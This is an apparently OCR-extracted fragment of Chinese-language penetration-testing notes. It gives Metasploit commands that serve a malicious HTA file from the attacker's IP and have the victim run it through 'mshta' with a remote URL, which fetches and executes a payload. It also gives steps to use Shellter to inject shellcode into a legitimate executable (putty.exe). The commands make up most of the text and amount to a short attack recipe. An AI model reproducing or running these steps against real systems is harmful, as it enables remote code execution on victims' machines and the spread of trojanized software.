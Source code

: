 24/61



## msf创建hta程序

```
msfconsole
use exploit/windows/misc/hta_server
set srvhost [你自己ip]
set lhost [你自己ip]
exploit

# 会给你一个网址 http://xxxxxx/xxx.hta

#然后用户可以远程去执行：
mshta http://xxxxxx/xxx.hta
```

29/61



## shellter

```
apt-get install shellter
# 安装一下，不能在终端操作
A
PE Target: /root/putty.exe
```

![image-20220112143004964](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220112143004964.png)
